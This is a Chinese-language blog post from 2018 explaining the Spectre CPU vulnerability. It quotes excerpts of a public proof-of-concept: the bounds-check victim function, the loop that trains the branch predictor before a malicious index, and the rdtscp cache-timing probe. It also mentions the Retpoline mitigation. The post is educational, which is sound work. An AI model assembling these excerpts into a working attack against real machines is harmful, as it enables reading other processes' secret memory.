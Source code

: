 ```yaml
---
layout:     post
title:      Intel 的 CPU 漏洞：Spectre
subtitle:   
date:       2018-01-14
author:     spin6lock
header-img: img/post-bg-mma-4.jpg
catalog: true
tags:
    - python
---
```

最近觉得越来越忙，写博客都没精力了。一定是太沉迷农药和刷即刻了

17 年年底，18 年年初，Intel 被爆出了 Meltdown（熔断）和 Spectre（幽灵）漏洞。等 Spectre 攻击的 POC 出来以后，[ 去 github 围观了一下 ](https://github.com/Eugnis/spectre-attack)，真的非常精妙，好想贴上来分享一下。

```
void victim_function(size_t x)
{
    if (x < array1_size)
    {
        temp &= array2[array1[x] * 512];
    }
}
```

主要代码就在 Source.c 里面，实际生效的不到 100 行，真的很精致。victim_function 是用来越权访问的，看代码是没有问题的，x 不符合条件，就不能访问到对应的内存。但是因为分支预测器的原因，即使没有满足 if 的条件，若分支预测器觉得条件会成立，还是会一边执行 if 的条件判断，一边执行 if 内的代码。当然，判断 if 失败后，会将 if 内代码执行的结果抛弃掉的。妙就妙在这里，结果会被回滚，但是 cache 不会。于是只要测度 array2 哪里访问的比较快，就知道密文是什么了。

如何欺骗分支预测器呢？看这里：

```
        /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
        training_x = tries % array1_size;
        for (j = 29; j >= 0; j--)
        {
            _mm_clflush(&array1_size);
            for (volatile int z = 0; z < 100; z++)
            {
            } /* Delay (can also mfence) */

            /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
            /* Avoid jumps in case those tip off the branch predictor */
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));

            /* Call the victim! */
            victim_function(x);
        }
```

跑 5 次满足 if 条件的调用，再跑一次不满足 if 条件的攻击。中间用位运算是为了避免额外的 if 语句会触动分支预测器。

测时间的逻辑在这：

```
        /* Time reads. Order is lightly mixed up to prevent stride prediction */
        for (i = 0; i < 256; i++)
        {
            mix_i = ((i * 167) + 13) & 255;
            addr = &array2[mix_i * 512];
            time1 = __rdtscp(&junk); /* READ TIMER */
            junk = *addr; /* MEMORY ACCESS TO TIME */
            time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
            if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
                results[mix_i]++; /* cache hit - add +1 to score for this value */
        }
```

用到了 [ 高精度的 rdtscp](http://www.felixcloutier.com/x86/RDTSCP.html) 来计时，可以读入 CPU 计数器的读数。这里还硬编码了 167 和 13 进去，其实就是两个质数，目的就是让 cache 预读摸不着头脑，不会因为线性预读取干扰了测时。

为了对抗 Spectre 攻击，[Google 推出了 Retpoline 方法 ](https://support.google.com/faqs/answer/7625886)，涉及到对可执行文件的二进制修改，还没看懂。。。
